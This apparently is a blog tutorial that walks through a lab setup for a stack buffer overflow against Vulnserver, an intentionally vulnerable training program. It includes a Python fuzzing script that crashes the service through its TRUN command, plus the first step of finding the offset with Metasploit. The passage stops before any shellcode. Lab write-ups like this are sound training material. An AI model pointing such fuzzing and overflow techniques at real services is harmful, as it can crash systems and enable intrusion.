 ```yaml
---
title: "Vulnserver - Stack Based Buffer Overflow"
date: 2020-01-19 
header:  
excerpt: "Vulnserver - Stack Based Buffer Overflow"
---
```


##  Intro

Vulnserver is an intentionally vulnerable software that can be found from [thegreycorner's blog](http://www.thegreycorner.com/p/vulnserver.html) or alternatively on their [GitHub](https://github.com/stephenbradshaw/vulnserver).

The software has multiple different Buffer Overflow vulnerabilities of which the Stack Based Buffer Overflow using the TRUN command is the simplest.

To practice exploiting the software we need the following
* [Immunity Debugger](https://www.immunityinc.com/products/debugger/)
* [Kali](https://www.offensive-security.com/kali-linux-vm-vmware-virtualbox-image-download/)
* [Mona.py](https://github.com/corelan/mona)
* Vulnserver
* Windows 10 (**32-Bit**)

## Setup

I will be using [VMware Workstation pro](https://my.vmware.com/en/web/vmware/info/slug/desktop_end_user_computing/vmware_workstation_pro/15_0), you could alternatively use [VirtualBox](https://www.virtualbox.org/wiki/Downloads) which is free. Select the version  based on your operating system e.g. Windows.
After downloading the preferred Virtualization platform we need to create the two Virtual Machines Windows & Kali.

After creating the VMs, start up Windows VM and download vulnserver, immunity debugger & mona.

### Setting up Immunity Debugger

Download [Immunity Debugger](https://debugger.immunityinc.com/ID_register.py), before you can download the site asks you to
fill the form, you can put random information in the fields.

![immu1](/images/vulnserver/stack/immu1.PNG)

Install Immunity Debugger and when the installer asks to install python 2.7.1 allow the installation.
After the installation is complete download [mona](https://github.com/corelan/mona) and copy the mona.py over to the
Pycommands folder inside Immunity Debugger. In this case **C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands**

![mona1](/images/vulnserver/stack/mona1.PNG)

You can now open Immunity Debugger by right clicking the shortcut and "run as administrator"

![immu2](/images/vulnserver/stack/immu2.PNG)

### Setting up Vulnserver

Download the Vulnserver software and extract it somewhere where it is easy to access such as the Desktop.

![vuln1](/images/vulnserver/stack/vuln1.PNG)

In the vulnserver folder there a few files, start the vulnserver.exe by right clicking it and "run as administrator"

![vuln2](/images/vulnserver/stack/vuln2.PNG)

You now have vulnserver up and running

![vuln3](/images/vulnserver/stack/vuln3.PNG)


## Exploiting TRUN Command

Now that we have basic setup done, we can start exploiting vulnserver via the TRUN command. First we can connect  to the
server using netcat, by default vulnserver listens on port 9999. Connect with **nc -v Windows VM IP 9999**, we can also list
the commands by issuing the command **HELP** after connecting.

![exp1](/images/vulnserver/stack/exp1.PNG)

First we create a fuzzing script with python that we can use to crash vulnserver. An example code could be something like

```python
#!/usr/bin/python
import sys, socket
from time import sleep

host = "192.168.209.133"
port = 9999

buffer = "A" * 100

while True:
         try:
                s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((host,port))
                s.send(('TRUN /.:/' + buffer))
                s.close()
                sleep(1)
                buffer = buffer + "A" * 100

         except:
                 print "Fuzzing crashed at %s bytes" % str(len(buffer))
                 sys.exit()
```

After running the python code, we can check Immunity Debugger and in a few moments we can see that the program has crashed with
access violation and execution of the program is paused, which is good (note since I'm using Windows 10 older versions may act differently).

![exp2](/images/vulnserver/stack/exp2.PNG)

Looking at our fuzzing script we can see that the crash occured around 2400 bytes

![exp3](/images/vulnserver/stack/exp3.PNG)

Next we have to create an unique string to find the offset - or where the crash actually happened within the 2400 bytes using the pattern_create.rb tool included in the metasploit-framework,
**/usr/share/metasploit-framework/tools/exploit/pattern_create.rb** Specify the lenght of the string the -l flag

![exp4](/images/vulnserver/stack/exp4.PNG)
